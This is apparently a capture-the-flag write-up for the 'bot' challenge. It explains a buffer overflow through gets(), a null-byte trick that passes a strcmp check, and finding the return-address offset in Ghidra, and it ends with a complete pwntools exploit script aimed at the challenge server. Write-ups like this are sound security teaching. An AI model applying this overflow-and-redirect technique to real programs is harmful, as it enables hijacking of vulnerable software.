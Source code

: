 We have the following C file

![image](https://user-images.githubusercontent.com/96965806/218291958-facba6aa-396c-429d-9c88-bed271a42c02.png)

The executable contains the vulnerable `gets` function, which means that there is a buffer overflow vulnerability that we can exploit.
We can overwrite the return address of `main` to jump to any point in the program that is interesting to us.

In particular we want to jump inside the following if statement
![image](https://user-images.githubusercontent.com/96965806/218292038-e788533a-57eb-4533-95a0-d2ced155ce6b.png)

However, if we don't satisfy the first if statement, the programs calls `exit(1)`, which means that we will never reach the `ret` statement in the binary.
Thankfully, the `strcmp` function only reads until it finds a null character `\x00` . This means that we can structure a payload that looks like this:
```
gimme = b'give me the flag\x00'
payload = gimme + <rest of the payload>
```

This would satisfy the if statement while allowing us to take advantage of the buffer overflow vulnerability.
Using ghidra we can find the offset between the input and the return address
![image](https://user-images.githubusercontent.com/96965806/218292182-0c670421-af12-4bc2-abc0-1c54c7a66711.png)

Then we can look at the assembly to determine where exactly we want to jump to
![image](https://user-images.githubusercontent.com/96965806/218292267-03ad2c76-105d-4c93-8375-cb356be2cfae.png)

We want to jump right after the if statement, so the best address is `0x000000000040128e`

This is what the final exploit looks like

```
from pwn import *

elf = context.binary = ELF('./bot')

#io = process('./bot')
#io = gdb.debug('./bot','continue')
io = remote('lac.tf', '31180')

gimme = b"give me the flag\x00"
payload = gimme + ((0x48 - len(gimme))* b'A') + p64(0x000000000040128e)

io.sendlineafter(b'help?', payload)
io.interactive()
```
